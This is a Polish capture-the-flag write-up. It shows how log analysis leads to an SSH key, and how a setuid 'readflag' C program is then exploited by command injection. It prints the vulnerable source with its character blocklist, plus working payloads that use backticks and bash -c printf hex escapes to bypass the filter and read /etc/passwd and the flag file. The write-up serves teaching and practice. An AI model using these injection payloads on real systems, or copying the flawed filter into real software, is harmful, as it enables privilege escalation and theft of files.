

# Week 2 Task 2

```ascii
   _____   ______    ____     __ __                  __
  / ___/  / ____/   /  _/  __/ // /_   ____   ___   / /_
  \__ \  / /        / /   /_  _  __/  / __ \ / _ \ / __/
 ___/ / / /___    _/ /   /_  _  __/  / / / //  __// /_
/____/  \____/   /___/    /_//_/    /_/ /_/ \___/ \__/

 _       __     _ __          __  __
| |     / /____(_) /____     / / / /___
| | /| / / ___/ / __/ _ \   / / / / __ \
| |/ |/ / /  / / /_/  __/  / /_/ / /_/ /
|__/|__/_/  /_/\__/\___/   \____/ .___/
                               /_/
```

### **Synopsis**

1. Analiza logów
2. Logowanie SSH
3. Konfiguracja shella
4. Analiza programu C "readflag"
5. Przygotowanie ścieżki do pliku
6. Wypakowanie flagi z gzipa

### **Recon**

Do zadania dostajemy typowy log z serwera HTTP (Apache lub Nginx). Sprawdzając kody odpowiedzi (2xx - pozytywny) można znaleźć jeden interesujący request - `GET /sshauth.php?type=keys&username=alpha`  
Inny request kilka linijek niżej zdradza nazwę hosta: `beta.biedna-firma.com`.  

### **Solving**

#### Klucz RSA - logowanie SSH

Przechodząc pod adres podany w logach otrzymujemy klucz prywatny RSA, którego należy użyć do logowania SSH.



[id_rsa](./id_rsa)

Nazwą użytkownika, jak adres requesta wskazuje, jest `alpha`.

Logowanie:
```
ssh -i id_rsa alpha@beta.biedna-firma.com
```

Po zalogowaniu i uruchomieniu ls witani jesteśmy niemiłą niespodzianką - polecenie `ls` wykonuje znane niektórym użytkownikom CLI `sl` (steam locomotive) blokując ekran na kilka sekund.  
Całe szczęście jest to jedynie alias powłoki, który można usunąć:
```
$ unalias ls
$ ls -la
drwxr-xr-x 7 root alpha 4096 Nov 11 18:12 .
drwxr-xr-x 3 root root  4096 Oct 28 12:00 ..
dr-x---r-x 2 root root  4096 Nov  8 21:37 .flag
-r--r--r-- 1 root root    12 Oct 28 13:40 .profile
-rw------- 1 root alpha  581 Nov 11 18:01 .viminfo
-r-s--x--- 1 root alpha 7728 Nov  7 19:58 readflag
-r--r--r-- 1 root root   661 Nov  7 19:58 readflag.c
$ ls -la .flag
dr-x---r-x 2 root root  4096 Nov  8 21:37 .
drwxr-xr-x 7 root alpha 4096 Nov 11 18:12 ..
-r-x------ 1 root root    44 Nov  8 10:55 flag.gz
```

Zauważyć można od razu folder `.flag` z plikiem `flag.gz` oraz plik wykonywalny `readflag` (wraz z kodem źródłowym w `readflag.c`).
Jako że `readflag` ma ustawiony [bit setuid](https://en.wikipedia.org/wiki/Setuid), wykonywany będzie z uprawnieniami roota.

#### readflag

```
$ cat readflag.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, ";")!=0;
    r += strstr(cmd, "|")!=0;
    r += strstr(cmd, "&")!=0;
    r += strstr(cmd, "*")!=0;
    r += strstr(cmd, ">")!=0;
    r += strstr(cmd, "<")!=0;
    return r;
}

int main(int argc, char* argv[])
{
    char cmd[128];
    if(filter(argv[1])) return 0;
    printf("OK\n");
    strcpy(cmd,"/bin/cat ");
    strcat(cmd,"/var/www/html/flags/");
    strcat(cmd,argv[1]);
    system( cmd );
    return 0;
}
```

Otworzenie pliku readflag.c pokazuje, że jest to prosty kod w C, który pobiera jeden argument, sprawdza czy nie zawiera on zabronionych znaków i uruchamia `/bin/cat /var/www/html/flags/` z dopisanym na końcu argumentem użytkownika.
Jak więc mamy obejść filtrowanie znaków i uzyskać dostęp do flagi w folderze użytkownika, skoro nie możemy użyć `/` (`../`), `&` ani `|` (`&& cat /home/alpha/.flag/flag.gz`) ani nawet samego słowa `flag`?

#### backtick

Jako że komenda uruchamiana jest w /bin/sh, który na obecnym systemie jest ustawiony jako /bin/dash:
```
$ ls -la /bin/sh
lrwxrwxrwx 1 root root 4 Oct 28 11:50 /bin/sh -> dash
```
to wiemy, że możemy użyć składni zgodnej z POSIX, w tym backticków, które pozwolą uzyskać uruchamianie własnych komend w środku oryginalnej komendy.
Gdy dodamy `\` aby nie uruchomić ich w obecnym shellu, uzyskujemy wynik dowolnej komendy (w tym przypadku `whoami`):
```
$ ./readflag "\`whoami\`"
OK
/bin/cat: /var/www/html/flags/root: No such file or directory
```
Jednak wciąż nie możemy ominąć filtra, który bezwzględnie blokuje niezbędne znaki.

#### `echo -e` / `printf`

Pierwszym rozwiązaniem które przyszło mi do głowy było `echo -e`, które pozwala wyświetlić "escape sequences (`\x41`)" jako normalne znaki.  
Niestety, mimo że działa to w bashu:
```
$ echo -e "\x41"
A
```
to w dashu taka flaga dla `echo` po prostu nie istnieje i wyświetli ją razem z oryginalnym tekstem.

```
$ ./readflag "\`echo -e "\x41"\`"
OK
/bin/cat: /var/www/html/flags/-e: No such file or directory
/bin/cat: x41: No such file or directory
```

`printf` zachowuje się podobnie i również zwraca oryginalny tekst zamiast znaków reprezentowanych przez sekwencje.

```
$ printf '\x41'
A
$ ./readflag "\`printf '\x41'\`"
OK
/bin/cat: /var/www/html/flags/\x41: No such file or directory
```

#### `bash -c`

Okazuje się jednak, że można te komendy uruchomić za pomocą one-linera w bashu, który po podaniu flagi `-c` oraz argumentu uruchomi ten argument jako komendę.
```
$ ./readflag "\`bash -c \"printf '\x41'\"\`"
OK
/bin/cat: /var/www/html/flags/A: No such file or directory
```

Potrzebne znaki:
```
>>> hex(ord('/'))
'0x2f'
>>> hex(ord('a'))
'0x61'
```

W ten sposób, escapując zakazane znaki można pobrać dowolny plik z systemu:
```
$ ./readflag "\`bash -c \"printf '..\x2f..\x2f..\x2f..\x2fetc\x2fpasswd'\"\`"
OK
root:x:0:0:root:/root:/bin/bash
alpha:x:1000:1001::/home/alpha:/bin/bash
```

```
./readflag "\`bash -c \"printf '..\x2f..\x2f..\x2f..\x2fhome\x2falpha\x2f.fl\x61g\x2ffl\x61g.gz'\"\`"
OK
)�[flag+N��K-�v2	�/0(7�����s
```

### **Results**

Przekierowując wyjście `readflag` do `gunzip` uzyskujemy flagę:
```
$ ./readflag "\`bash -c \"printf '..\x2f..\x2f..\x2f..\x2fhome\x2falpha\x2f.fl\x61g\x2ffl\x61g.gz'\"\`" | gunzip
scinet{B4SH_p0w3R}

gzip: stdin: decompression OK, trailing garbage ignored
```

## Contributing

Jeżeli zauważyłeś/aś błąd lub chcesz dodać swoją wersję rozwiązania - proszę o pull request :)
